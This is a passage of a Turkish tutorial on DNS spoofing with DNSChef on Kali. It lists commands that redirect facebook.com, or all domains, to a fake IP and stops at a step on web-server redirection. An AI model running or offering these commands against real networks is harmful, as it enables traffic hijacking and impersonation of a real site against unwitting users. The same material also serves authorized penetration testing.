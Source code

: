 DNSChef, DNS sorgularını özelleştirilmiş bir şekilde spoof etmek için kullanılan gelişmiş bir araçtır.



**Adımlar:**

1. **DNSChef Kurulumu:**

   - DNSChef, Kali’de varsayılan olarak yüklü olmayabilir. Şu komutla kurun:

     ```

     sudo apt install dnschef

     ```



2. **DNSChef Konfigürasyonu:**

   - DNSChef’i başlatmadan önce sahte DNS kayıtlarını tanımlayın. Örneğin:

     ```

     sudo dnschef --fakeip 192.168.1.100 --fakedomains facebook.com,www.facebook.com

     ```

     Bu, sadece belirtilen domainler için sahte IP’ye yönlendirme yapar. Diğer domainler gerçek DNS sunucusuna yönlendirilir.



3. **Tüm DNS Sorgularını Spoof Etme:**

   - Tüm DNS sorgularını sahte bir IP’ye yönlendirmek için:

     ```

     sudo dnschef --fakeip 192.168.1.100

     ```



4. **Hosts Dosyası Kullanımı:**

   - Daha fazla özelleştirme için bir hosts dosyası oluşturun:

     ```

     echo "facebook.com=192.168.1.100" > dnschef_hosts.txt

     ```

   - Ardından DNSChef’i şu şekilde çalıştırın:

     ```

     sudo dnschef --file dnschef_hosts.txt

     ```



5. **IP Yönlendirme ve Web Sunucusu:**
